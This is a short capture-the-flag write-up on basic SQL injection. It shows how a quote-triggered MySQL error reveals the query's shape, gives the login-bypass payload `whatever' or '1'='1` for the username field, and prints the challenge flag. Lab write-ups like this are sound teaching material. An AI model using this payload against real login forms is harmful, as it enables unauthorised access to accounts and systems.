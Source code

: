 # Most basic SQLi pattern

## Solution

By submitting `test'` we receive the following error message:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''test'' AND password = ''' at line 1
```

This tells us the SQL statement server side looks like:

```
SELECT ... FROM ... WHERE username='$username' AND password='$password'
```

Single quote are not escaped. We are able to log using as a username `test' or '1'='1` and as a password an empty value:

```
SELECT ... FROM ... WHERE username='test' or '1'='1' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|whatever' or '1'='1|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-238974289383274893`